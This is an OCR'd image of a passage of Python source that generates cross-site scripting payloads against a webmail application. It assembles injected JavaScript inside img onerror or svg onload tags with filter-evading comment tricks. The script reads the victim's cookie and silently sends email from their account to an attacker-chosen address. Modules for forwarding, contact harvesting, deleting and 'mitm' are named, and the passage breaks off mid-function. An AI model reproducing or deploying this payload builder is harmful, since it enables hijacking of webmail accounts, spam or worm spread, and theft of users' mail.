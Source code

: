 ```python
                try{
                newURL = currentURL.replace(/BlankMessageBody/,'Compose');
                xmlhttp1=new XMLHttpRequest();
                url = newURL + decodeURIComponent('%26ComposeInNewWindow=Yes%26ChangeView=No%26SendNow=Yes');
                xmlhttp1.open('POST',url,false);
                xmlhttp1.setRequestHeader('Content-type', 'application/x-www-form-urlencoded');
                letter = decodeURIComponent('Attachment=%26ComposeUser=AGdsXhNOEJOGhG7lRyMJ%26ComposeID=1%26Attn=%26Company=%26From=0%26Reply-To=%26SaveSentMessage=No%26To=''' +send_attack_to_who+'''%26CC=%26BCC=%26Subject=t''' + Subject + '''%26Body=test2%26BodyHTML='''+ body +'''\');
                xmlhttp1.send(letter);
                response = xmlhttp1.responseText;}catch(error){}
'''
test = '''
                try{
                alert('You are hacked!!!!') }catch(error){}
            '''
user = '''      
                try{
                var user = 'unknow';
                var pos=document.cookie.toLowerCase().indexOf('user=') + 5;
                subcookie = document.cookie.substring(pos);
                var pos1 = subcookie.indexOf(';');
                if(pos1!=-1){ user = subcookie.substring(0,pos1);
                }else{user = subcookie }}catch(error){}
                currentURL = window.location.href;
                if(currentURL.indexOf('View=Main') > 0){
                currentURL = currentURL.replace(/Main/,'BlankMessageBody');}
'''
#function = ['forwarding','contact','receive','send','delete','mitm']
def gen_js():
    if browser == 'chrome':     
        attact_js = '''<img/<!----test----/onerror="''' + user
        if 'forwarding' in function:
            attact_js += forwarding     
        if 'mitm' in function:
            attact_js += mitm  
        if 'contact' in function:
            attact_js += contact  
        if 'receive' in function:
            attact_js += receive  
        if 'send' in function:
            attact_js += send  
        if 'delete' in function:
            attact_js += delete  
        if 'test' in function:
            attact_js += test  
        attact_js += '''" src="#">'''  
    else:
        attact_js = '''<svg/<!----test----/onload="''' + user
        if 'forwarding' in function:
            attact_js += forwarding     
        if 'mitm' in function:
            attact_js += mitm   
        if 'contact' in function:
            attact_js += contact  
        if 'receive' in function:
            attact_js += receive  
        if 'send' in function:
            attact_js += send  
        if 'delete' in function:
            attact_js += delete  
        if 'test' in function:
```